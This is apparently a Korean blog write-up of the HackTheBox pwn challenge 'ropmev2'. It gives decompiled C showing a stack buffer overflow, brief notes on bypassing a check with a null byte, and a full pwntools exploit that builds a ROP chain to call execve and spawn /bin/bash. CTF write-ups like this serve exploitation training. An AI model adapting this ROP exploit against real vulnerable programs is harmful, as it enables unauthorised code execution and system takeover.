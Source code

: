 ```yaml
---
title: "[HackTheBox]ropmev2"
date: 2020-1-14
tags: [hackthebox.eu]
categories: [hackthebox.eu]
---
```


```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char **v3; // rdx
  char *buf[26]; // [rsp+0h] [rbp-D0h]

  sub_401213();
  printf("Please dont hack me\n", buf);
  read(0, buf, 500uLL);
  if ( !strcmp("DEBUG\n", buf) )
  {
    printf("I dont know what this is %p\n", buf);
    main("I dont know what this is %p\n", buf, v3);
  }
  sub_401238(buf);
  return 0LL;
}
```

buf주소도 주는데 별로 쓸 필요없다. 다른 방법이 있는건지 모르겠다.

buf에 `\x00` 으로 문자열 끝이라고 인식하게 한 다음에 `sub_401238` 함수 우회해주고 리턴해주면 된다~ 

저기서 서버에서 사용하는 쉘이 /bin/sh 쉘이 아니라서 좀 애먹었다. 서버에서는 /bin/bash로 쉘 따야 권한 얻을 수 있다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./ropmev2')
p = process('./ropmev2')
#libc = e.libc
prdi = 0x000000000040142b #pop rdi ; ret
prsi_r15 = 0x0000000000401429 # pop rsi ; pop r15 ; ret
prdx_r13 = 0x0000000000401164 # pop rdx ; pop r13 ; ret
prax = 0x0000000000401162 # pop rax ; ret
main = 0x000000000040116B

payload = '\x00' * 0xd0 + 'realsung'
payload += p64(prdi) + p64(0) + p64(prsi_r15) + p64(e.bss() + 0x100) + p64(0) + p64(prdx_r13) + p64(15) + p64(0) + p64(e.plt['read'])
payload += p64(prax) + p64(59) + p64(prdi) + p64(e.bss() + 0x100) + p64(prsi_r15) + p64(0) + p64(0) + p64(prdx_r13) + p64(0) + p64(0) + p64(0x0000000000401168)
p.sendlineafter('me\n',payload)

p.sendline('/bin/bash\x00')

p.interactive()
```

